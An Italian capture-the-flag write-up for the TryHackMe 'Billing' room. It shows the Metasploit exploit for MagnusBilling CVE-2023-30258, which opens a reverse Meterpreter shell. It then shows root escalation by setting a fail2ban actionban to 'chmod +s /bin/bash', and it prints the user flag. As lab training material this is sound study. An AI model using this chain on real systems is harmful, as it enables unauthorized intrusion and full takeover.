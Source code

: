 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/billing

```
nmap -O -sN -Pn -sV -p- 10.10.97.42
```

```
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
3306/tcp open  mysql    MariaDB (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
MAC Address: 02:BF:20:50:7E:75 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=3/9%OT=22%CT=1%CU=43475%PV=Y%DS=1%DC=D%G=Y%M=02BF20%TM
OS:=67CD4761%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%
OS:TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW
OS:7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4
OS:B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=
OS:40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%
OS:O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=4
OS:0%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%
OS:Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=
OS:Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.50 seconds

```

```
whatweb 10.10.97.42
```
```
http://10.10.97.42 [302 Found] Apache[2.4.56], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[10.10.97.42], RedirectLocation[./mbilling]
http://10.10.97.42/mbilling [301 Moved Permanently] Apache[2.4.56], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[10.10.97.42], RedirectLocation[http://10.10.97.42/mbilling/], Title[301 Moved Permanently]
http://10.10.97.42/mbilling/ [200 OK] Apache[2.4.56], Country[RESERVED][ZZ], HTML5[applicationCache], HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[10.10.97.42], Script[text/javaScript,text/javascript], Title[MagnusBilling][Title element contains newline(s)!]

```
```
ExtJS 6.2.0.981
```

```
PHP
```

```
gobuster dir -u http://10.10.97.42/mbilling/ -w /usr/share/wordlists/dirb/common.txt -t50
```

niente facciamo ricerca in rete dei file comuni dell'applicazione
```
http://10.10.97.42/mbilling/README.md
```

MagnusBilling version 7.x.x 

```
msfconsole
```

```
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```

```
show options
```

```
set RHOSTS 10.10.97.42
```

```
set LHOST 10.21.9.220
```

```
set RPORT 80
```

```
set LPORT 4444
```

```
run
```

```
meterpreter > getuid
Server username: asterisk
meterpreter > pwd
/var/www/html/mbilling/lib/icepay
```

```
shell
cd /home
ls
magnus
cd magnus
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
user.txt
cat user.txt
THM{4a6831d5f124b25eefb1e92e0f0da4ca}
```

qual'è user.txt?
```
THM{4a6831d5f124b25eefb1e92e0f0da4ca}
```

```
sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

**fail2ban-client** è un'interfaccia a riga di comando che ci consente di interagire con, configurare e controllare **fail2ban-server** . Per dare una breve spiegazione, **fail2ban** è uno strumento di sicurezza che monitora i file di registro per attività sospette (come ripetuti tentativi di accesso non riusciti) e banna gli indirizzi IP incriminati aggiornando le regole del firewall.

- **`/etc/fail2ban/jail.conf`**: Questo file contiene le configurazioni di base per i vari "jail" (prigioni) che `fail2ban` utilizza per monitorare i log e applicare le regole.
- **`/etc/fail2ban/jail.local`**: Questo file è utilizzato per le configurazioni personalizzate. Se esiste, le impostazioni qui sovrascriveranno quelle di `jail.conf`.
- **`/etc/fail2ban/action.d/`**: Questa directory contiene gli script di azione che `fail2ban` esegue quando viene attivato un jail. Controlla questi file per vedere quali azioni vengono eseguite.

```
cd /etc/fail2ban/action.d/
```


Controllando i processi in esecuzione, **fail2ban-server** è in esecuzione come **root** , come previsto.

```
ps -aux | grep fail
```

Controllando lo stato del **fail2ban-server** , vediamo 8 jail attive.
```
sudo /usr/bin/fail2ban-client status
```
```
Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
```

Per utilizzare **fail2ban** per eseguire comandi come **root** , possiamo modificare una delle azioni definite per la jail, ad esempio l'azione da eseguire (comando da eseguire) quando si banna un IP.

Per prima cosa, recuperiamo le azioni attualmente impostate per una delle jail attive.

```
sudo /usr/bin/fail2ban-client get asterisk-iptables actions
```
```
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
```
Successivamente, modifichiamo il comando per `actionban`nell'azione `iptables-allports-ASTERISK`, che viene eseguita quando si banna un IP per la jail **asterisk-iptables** . Lo impostiamo per eseguire il nostro comando che imposta il bit **setuid** su **/bin/bash** , come segue:

```
sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
```

```
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```

```
sudo /usr/bin/fail2ban-client get asterisk-iptables action iptables-allports-ASTERISK actionban
```

Ora possiamo bannare manualmente un indirizzo IP per la jail **asterisk-iptables** , che eseguirà il comando `actionban`definito nell'azione `iptables-allports-ASTERISK`.

```
ls -la /bin/bash
```
```
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

```
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
1
```

```
ls -la /bin/bash
```
```
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Infine, con il bit **setuid** impostato sul binario **/bin/bash** , possiamo usarlo per ottenere una shell e leggere il flag root per `/root/root.txt`completare la stanza.

```
/bin/bash -p
```

```
python3 -c 'import os;import pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
```

```
id
```
```
root@Billing:/var/www/html/mbilling/lib/icepay# id
id
uid=0(root) gid=0(root) groups=0(root),1001(asterisk)
root@Billing:/var/www/html/mbilling/lib/icepay# cd /root
cd /root
root@Billing:/root# ls
ls
filename  passwordMysql.log  root.txt
root@Billing:/root# cat root.txt
cat root.txt
THM{xxxxxxxxxxxxxx}
```
root.txt?
```
THM{xxxxxxxxxxxxx}
```